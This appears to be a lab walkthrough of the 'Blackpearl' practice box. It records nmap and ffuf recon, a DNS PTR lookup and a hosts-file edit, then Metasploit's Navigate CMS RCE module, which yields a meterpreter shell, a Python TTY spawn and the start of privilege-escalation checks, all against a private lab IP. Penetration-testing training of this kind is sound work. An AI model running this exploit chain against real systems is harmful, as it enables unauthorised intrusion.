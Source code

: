 ## Blackpearl
VM Setup > get IP
Start NMAP
```bash
nmap -T4 -A -p- 192.168.138.130
```
- 22 ssh - meh
- 80 http - webserver
- 53 dns - maybe if nothing on 80
Check 80 in browser >> can do directory busting >> can view source code for anything juicy
- >> see a domain email at end
start ffuf
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.158.138.130/FUZZ 
```
- found /secret >> check in browser, it's a file > save it
- open in txt editor
	- trolled
#### dnsrecon
```bash
dnsrecon -r 127.0.0.0/24 -n 192.168.138.130. -d [any text] # parameters: -r = our range, local host where machine is, -n target box IP, -d domain

#found DNS pointer record (PTR) -- blackpearl.tcm >>> we need to add this our DNS
nano /etc/host #edit host file >> add dns record for blackpearl.tcm using target IP
192.168.138.130  blackpearl.tcm
>>save
```
- reopen web browser >> visit new dns entry >> http://blackpearl.tcm
	- my info php page
- fuzz the new directory
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ #don't neeed IP, can use url
```
- navigate shows up >> check it in browser
	- can see navigate CMS >> search google for exploit
	- navigate cms exploit: using metasploit https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
Use metasploit
```bash
msfconsole
use exploit/multi/http/navigate_cms_rce #can copy from webpage instructions
options #check what to set
set rhosts 192.168.138.130
set vhost blackpearl.tcm #need to set virtual host as well
options #check if everything is set
run #execute exploit

#meterpreter shell spawns
shell
whoami #not admin/root
#we need to spawn a TTY shell
which python #check if python is installed
python -c 'import pty; pty.spawn("/bin/sh")'

#now we have the TTY shell
sudo -l #not found
history #nothing

#now we need to check for privesc >> we can navigate to /tmp to run things

cd /tmp
```